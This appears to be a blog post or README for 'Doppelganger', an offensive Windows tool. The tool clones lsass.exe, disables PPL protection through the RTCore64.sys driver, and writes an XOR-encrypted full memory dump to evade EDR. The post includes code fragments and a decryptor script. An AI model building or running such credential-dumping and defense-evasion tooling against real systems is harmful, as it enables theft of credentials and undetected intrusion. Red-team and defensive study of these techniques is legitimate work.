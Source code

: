 +++
title = 'Doppelganger'
date = 2025-04-02T15:28:21+02:00
draft = false
+++

### Doppelganger Program: An Advanced LSASS Dumper with Process Cloning

#### Author: vari.sh

![Doppelganger](images/doppelganger.png)

---

## Overview

The **Doppelganger Program** is an advanced Windows utility designed to obtain an LSASS (Local Security Authority Subsystem Service) dump from a cloned process, rather than the original one. By using process cloning techniques, the tool aims to bypass PPL (Process Protected Light), VBS (Virtualization Based Security), EDR/XDR detection mechanisms that typically monitor interactions with `lsass.exe`.

The program achieves this by:
- Obtaining a SYSTEM token through token duplication.
- Loading clean versions of Windows DLLs to avoid detection.
- Cloning the LSASS process using `NtCreateProcessEx`.
- Disabling PPL (Protected Process Light) protection on `lsass.exe`.
- Creating an LSASS dump using `MiniDumpWriteDump()`.
- Encrypting the dump file using XOR encryption to further avoid detection.

---

## Features

- **Process Cloning:** Uses `NtCreateProcessEx` to clone `lsass.exe` and avoid detection.
- **XOR Encryption:** Dumps are encrypted with a predefined XOR key before being written to disk.
- **Driver Interaction:** Leverages `RTCore64.sys` for direct memory access to disable PPL.
- **Token Manipulation:** Elevates to SYSTEM privileges to access LSASS.
- **DLL Offuscation:** Loads DLLs using encrypted strings to bypass signature-based detections.

---

## Installation

The Doppelganger Program is written in C and is intended to be compiled using Visual Studio. The repository is structured as follows:

```
doppelganger/
│
├── includes/          # Header files (.h)
├── src/               # Source files (.c)
├── build/             # Output binaries
├── utils/             # Utility scripts (e.g., decryptor)
└── README.md          # Documentation
```

### Compilation

Compile the project in Visual Studio using the provided solution file.
Ensure to have the `RTCore64.sys` driver present and accessible by the program.

---

## Code Breakdown

### 1. Resolving APIs

The tool resolves critical Windows APIs by decrypting their names from encrypted strings and dynamically loading them with `CustomGetProcAddress()`.

```c
// Example of resolving API pointers
BOOL success =
    ResolveApiFromDll(hKernel32, P32F_ENC, sizeof(P32F_ENC), (void**)&pP32F) &&
    ResolveApiFromDll(hNtdll, NTCPE_ENC, sizeof(NTCPE_ENC), (void**)&pNTCPX) &&
    ResolveApiFromDll(hAdvapi32, OPTK_ENC, sizeof(OPTK_ENC), (void**)&pOPTK);

if (!success) {
    log_error("Failed to resolve one or more APIs.");
    return FALSE;
}
```

### 2. Token Duplication

To interact with `lsass.exe`, the tool impersonates SYSTEM using duplicated tokens.

```c
HANDLE hSystemToken = NULL;
if (!GetSystemTokenAndDuplicate(&hSystemToken)) {
    log_error("Failed to duplicate SYSTEM token.");
    return 1;
}
```

### 3. Process Cloning

Using `NtCreateProcessEx`, the tool creates a clone of `lsass.exe`.

```c
NTSTATUS status = pNTCPX(
    &hClone,
    PROCESS_ALL_ACCESS,
    &objAttr,
    hLsass,
    0,
    NULL,
    NULL,
    NULL,
    FALSE
);
```

### 4. Disabling PPL

Protected Process Light (PPL) protection is disabled by directly modifying memory using the `RTCore64.sys` driver.

```c
WriteMemoryPrimitive(Device, 1, eproc + offs.Protection - 2, 0x00); // SignatureLevel
WriteMemoryPrimitive(Device, 1, eproc + offs.Protection - 1, 0x00); // SectionSignatureLevel
WriteMemoryPrimitive(Device, 1, eproc + offs.Protection, 0x00); // Protection
log_success("PPL disabled (0x00 written)");
```

After the cloning, the values will be restored.

### 5. Creating the Dump

Finally, a memory dump of the cloned `lsass.exe` process is created and encrypted.

```c
BOOL dumped = pMDWD(
    hClone,
    clonedPID,
    hTempFile,
    MiniDumpWithFullMemory,
    NULL,
    NULL,
    NULL
);
```

---

## Decryption

A simple Python script is provided to decrypt the dumped files.

```python
import sys

XOR_KEY = b"0123456789abcdefghij"

def xor_decrypt(data: bytes, key: bytes) -> bytes:
    return bytes([b ^ key[i % len(key)] for i, b in enumerate(data)])

def main():
    if len(sys.argv) != 2:
        print(f"Usage: {sys.argv[0]} <xor_dump_path>")
        sys.exit(1)

    encrypted_path = sys.argv[1]
    output_path = encrypted_path + ".dec"

    with open(encrypted_path, "rb") as f:
        data = f.read()

    decrypted = xor_decrypt(data, XOR_KEY)

    with open(output_path, "wb") as f:
        f.write(decrypted)

    print(f"Decryption successful. Output written to: {output_path}")

if __name__ == "__main__":
    main()
```

---

## Conclusion

The Doppelganger Program demonstrates how process cloning, API obfuscation, and memory manipulation can be used to bypass traditional detection mechanisms. The combination of techniques makes it effective at retrieving sensitive memory data even on systems protected by anti-tampering mechanisms.

---

## Disclaimer

This project is for educational purposes only. Use responsibly and only in environments where you have explicit permission to test security mechanisms.

